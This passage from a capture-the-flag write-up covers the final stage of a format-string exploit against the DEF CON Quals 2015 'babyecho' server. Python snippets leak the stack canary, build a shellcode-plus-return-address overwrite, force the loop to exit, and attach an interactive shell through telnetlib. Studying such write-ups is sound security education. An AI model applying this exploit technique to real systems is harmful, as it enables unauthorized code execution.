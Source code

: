 The code fails if one of the addresses contains a newline character.
This is because when the server encounters a newline character, it stops receiving our input and feeds only the bytes received so far to *printf*.
So my exploit is not 100% reliable, but it worked well enough for me.

Finally, we need to actually create a binary exploit that we will be writing to the server memory. The exploit is basically crafted very similar to a standard stack overflow exploit: Deliver some machine code, and overwrite the return address. However, there is one more (small) obstacle to overcome. The screenshot below shows the code that is executed upon leaving the loop.

![IDA Screenshot showing code executed after leaving the loop]({{ site.url }}/imgs/defcon-quals-2015-babyecho-ida-exit.png)

The code checks whether the unknown variable *var_4* still has the same value stored at position 0x14 in the data segment *gs*. If it doesn't, it calls a function that outputs "stack smashing detected" and exits.
This is precisely gcc's implementation of [stack canaries](https://en.wikipedia.org/wiki/Stack_buffer_overflow#Stack_canaries).
So when writing our exploit, we must not change the stack canary. Fortunately, we can just read the stack canary using the method from above, and then craft our exploit so that the stack canary isn't changed.

{% highlight python %}
#get stack canary
stack_canary = getValueFromStack(1024//4 + 7, s)
print("stack canary: ", stack_canary)

#now build the exploit!
shellcode = open('shellcode', 'rb').read()
loadingPosition = buffer_address + 1024 - len(shellcode)
exploit = shellcode + stack_canary
exploit += b'\x00'*8 # skip some bytes (due to alignment of the stack pointer)
exploit += b'\x00'*4 # overwrite saved base pointer (with anything)
exploit += loadingPosition.to_bytes(4, 'little') # overwrite return address

#send exploit
writeDataToAddress(7, exploit, loadingPosition, s)
{% endhighlight %}

Now we only need the server to exit the loop, by overwriting the *abort_loop* variable:

{% highlight python %}
def quitEcho():
	writeDataToAddress(7, b'1', buffer_address - 4, s)
{% endhighlight %}

Now the server should exit the loop, return from the function and thus execute our code. We get an interactive shell with the following helpful piece of code. (I believe niklasb or saelo showed me this neat trick.)

{% highlight python %}
# now, the server should open up a shell
print("You should now have a shell:")
import telnetlib
t = telnetlib.Telnet()
t.sock = s
t.interact()
{% endhighlight %}
